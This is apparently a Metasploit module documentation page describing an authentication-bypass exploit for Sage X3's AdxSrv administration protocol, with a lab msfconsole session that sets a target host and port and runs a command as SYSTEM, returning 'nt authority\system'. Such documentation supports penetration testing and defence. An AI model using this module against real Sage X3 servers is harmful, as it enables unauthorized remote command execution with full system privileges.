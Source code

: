 ## Vulnerable Application

### Description

This module leverages an authentication bypass exploit within Sage X3 `AdxSrv`'s administration
protocol to execute arbitrary commands as `SYSTEM` against a Sage X3 Server running an
available `AdxAdmin` service.

### Setup

Not available.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Scenarios

### Sage X3 on Windows Server 2016

```
msf6 > use exploit/windows/sage/x3_adxsrv_auth_bypass_cmd_exec
[*] Using configured payload cmd/windows/generic
msf6 exploit(windows/sage/x3_adxsrv_auth_bypass_cmd_exec) > options

Module options (exploit/windows/sage/x3_adxsrv_auth_bypass_cmd_exec):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   1818             yes       The target port (TCP)


Payload options (cmd/windows/generic):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
   CMD   whoami           yes       The command string to execute


Exploit target:

   Id  Name
   --  ----
   0   Windows Command


msf6 exploit(windows/sage/x3_adxsrv_auth_bypass_cmd_exec) > set rhosts 172.16.57.6
rhosts => 172.16.57.6
msf6 exploit(windows/sage/x3_adxsrv_auth_bypass_cmd_exec) > set rport 50000
rport => 50000
msf6 exploit(windows/sage/x3_adxsrv_auth_bypass_cmd_exec) > run

[*] 172.16.57.6:50000 - Connected
[+] 172.16.57.6:50000 - ADXDIR authentication successful.
[+] 172.16.57.6:50000 - Received directory info from host: D:\Sage\SafeX3\AdxAdmin
[+] 172.16.57.6:50000 - Command authentication successful.
[*] 172.16.57.6:50000 - Writing data
[+] 172.16.57.6:50000 - ------------ Response Received ------------
[*] 172.16.57.6:50000 - nt authority\system
[!] 172.16.57.6:50000 - This exploit may require manual cleanup of 'D:\Sage\SafeX3\AdxAdmin\tmp' on the target
[*] Exploit completed, but no session was created.
msf6 exploit(windows/sage/x3_adxsrv_auth_bypass_cmd_exec) >
```
